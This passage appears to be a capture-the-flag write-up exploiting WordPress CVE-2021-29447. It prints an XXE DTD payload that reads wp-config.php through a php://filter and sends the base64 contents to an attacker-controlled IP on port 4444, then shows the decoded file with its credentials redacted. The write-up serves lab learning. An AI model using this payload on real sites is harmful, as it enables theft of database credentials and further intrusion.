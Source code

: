 # **Exploiting Wordpress**

The next step is to enumerate the WordPress website on port 80 and obtain its `wp-config.php`. This file meets the requirement of the first objective in the current room.

- [x]  Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.

By gaining access to the `wp-config.php` file, I can obtain sensitive data, such as database credentials, that can be used to further penetrate the system. I used same technique as follows by replacing the dtd file with

```jsx
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.17.44.22:4444/?p=%file;'>" >
```

![image.png](assets/Wordpress_CVE-2021-29447/image%202.png)

Here is the decoded Base64 file

```jsx
 <?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'REDACTED' );

/** MySQL database username */
define( 'DB_USER', 'REDACTED' );

/** MySQL database password */
define( 'DB_PASSWORD', 'REDACTED' );

/** MySQL hostname */
```
